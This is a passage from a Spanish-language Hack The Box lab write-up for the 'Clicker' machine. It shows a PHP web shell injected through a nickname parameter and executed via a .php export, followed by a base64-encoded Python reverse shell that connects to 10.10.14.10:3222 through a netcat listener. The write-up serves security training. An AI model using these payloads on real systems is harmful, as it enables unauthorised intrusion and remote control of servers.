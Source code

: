 ![Desktop View](/writeup-htb-clicker/change extension.png)
_change extension_
Colocamos en el navegador lo siguiente `http://clicker.htb/exports/top_players_os95bcqz.php`, observamos que aparecen los datos, por lo tanto, si podemos generar un archivo `.php` como exportación.  
![Desktop View](/writeup-htb-clicker/show export2.png)
_show export_

> Como en el archivo `.php` exportado se guardan los datos de nuestro usuario y del top de players, donde las columnas exportadas son: `nickname`, `clicks` y `level`. Para poder conseguir una `shell`, podemos colocar código php en el nickname de nuestro usuario y de esa manera cuando ingresemos al archivo `.php` exportado, vamos a lograr ejecutar comandos. Para cambiar el `nickname` utilizaremos la petición GET de `save_game`.
{: .prompt-tip }
### Ingreso al sistema
- Agregamos en la petición GET de `save_game` lo siguiente:  
```
&nickname=<%3fphp+system($_GET["cmd"])%3b%3f>
```

> La shell está encodeada en formato url para que se acepte la petición. El código php de la shell sin encodear es: `<?php system($_GET["cmd"]);?>`.
{: .prompt-info }
Luego lo enviamos y el nickname se cambia de manera exitosa.
![Desktop View](/writeup-htb-clicker/change nickname.png)
_change nickname_
- Procedemos a exportar los datos en formato php e indica que la exportación ha sido un éxito. 
![Desktop View](/writeup-htb-clicker/change extension2.png)
_change extension_
- Colocamos en la url la ruta proporcionada de la exportación y agregamos `?cmd=id` para ejecutar el comando id.
Obtenemos como resultado `www-data`, por lo tanto, la shell está funcionando bien.  
![Desktop View](/writeup-htb-clicker/show export3.png)
_show export_
- Ahora bien para poder ejecutar comandos desde nuestra terminal, vamos a colocar nuestro puerto 3222 en escucha.
```bash
nc -lvnp 3222
```
En el navegador vamos a colocar el siguiente valor en el parámetro `cmd`.  
```
echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEwLjEwLjE0LjEwIiwzMjIyKSk7b3MuZHVwMihzLmZpbGVubygpLDApOyBvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO2ltcG9ydCBwdHk7IHB0eS5zcGF3bigiL2Jpbi9iYXNoIikn" | base64 -d | bash
```

> Donde el valor del echo es: `python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",3222));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'` solo que está encodeado en base64.
{: .prompt-info }
Ejecutamos.  
![Desktop View](/writeup-htb-clicker/shell.png)
_Obtención shell_
Luego de unos segundos ya tenemos nuestra shell en nuestra terminal.  
![Desktop View](/writeup-htb-clicker/shell2.png)
_Shell_
Ahora nos dirigimos a la carpeta home, donde hay una carpeta del usuario jack, sin embargo, no tenemos permisos para ingresar.  
![Desktop View](/writeup-htb-clicker/home3.png)
_home_